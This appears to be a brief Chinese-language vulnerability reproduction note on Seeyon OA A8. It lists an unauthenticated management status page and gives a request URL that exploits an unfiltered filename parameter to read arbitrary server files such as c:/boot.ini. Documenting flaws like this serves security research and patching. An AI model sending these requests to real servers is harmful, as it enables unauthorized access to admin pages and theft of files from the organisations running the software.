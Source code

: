 # 致远OA A8 未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/3352](https://www.zhihuifly.com/t/topic/3352)

# 致远OA A8 未授权访问

## 一、漏洞简介

## 二、漏洞影响

致远OA A8

## 三、复现过程

该地址为性能监控后台，存在未授权访问

seeyon/management/status.jsp

任意文件读取漏洞,由于对filename未进行过滤，导致可下载读取任意文件

```
http://www.0-sec.org/seeyon/main.do?method=officeDown&filename=c:/boot.ini 
```
